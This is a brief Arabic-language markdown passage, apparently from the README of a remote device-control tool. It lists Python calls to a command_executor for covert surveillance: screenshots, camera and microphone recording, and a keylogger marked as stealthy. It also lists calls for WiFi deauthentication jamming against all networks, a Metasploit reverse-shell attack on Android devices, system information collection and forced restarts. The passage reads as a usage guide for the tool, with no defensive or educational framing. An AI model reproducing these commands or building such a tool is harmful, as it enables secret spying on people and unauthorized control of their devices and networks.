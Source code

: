 #### **📸 المراقبة:**
```python
# ✅ لقطة شاشة
result = command_executor.send_command(device_id, "surveillance", {
    "action": "screenshot",
    "quality": "high",
    "format": "png"
})

# ✅ تسجيل الكاميرا
result = command_executor.send_command(device_id, "surveillance", {
    "action": "record_camera",
    "duration": 30,
    "quality": "high"
})

# ✅ تسجيل الميكروفون
result = command_executor.send_command(device_id, "surveillance", {
    "action": "record_audio",
    "duration": 60,
    "quality": "high"
})

# ✅ تسجيل المفاتيح
result = command_executor.send_command(device_id, "surveillance", {
    "action": "keylogger",
    "duration": 300,
    "stealth": True
})
```

#### **🔨 الهجمات المتقدمة:**
```python
# ✅ هجوم الواي فاي
result = command_executor.send_command(device_id, "wifi_jamming", {
    "attack_type": "deauth",
    "target_ssid": "all",
    "duration": 60
})

# ✅ هجوم الأجهزة المحمولة
result = command_executor.send_command(device_id, "mobile_attack", {
    "attack_type": "metasploit",
    "target_os": "android",
    "payload_type": "reverse_shell"
})
```

#### **⚙️ التحكم في النظام:**
```python
# ✅ معلومات النظام
result = command_executor.send_command(device_id, "system_control", {
    "action": "get_info",
    "include": ["os", "hardware", "network", "battery", "memory"]
})

# ✅ إعادة تشغيل
result = command_executor.send_command(device_id, "system_control", {
    "action": "restart",
    "force": True
})
```
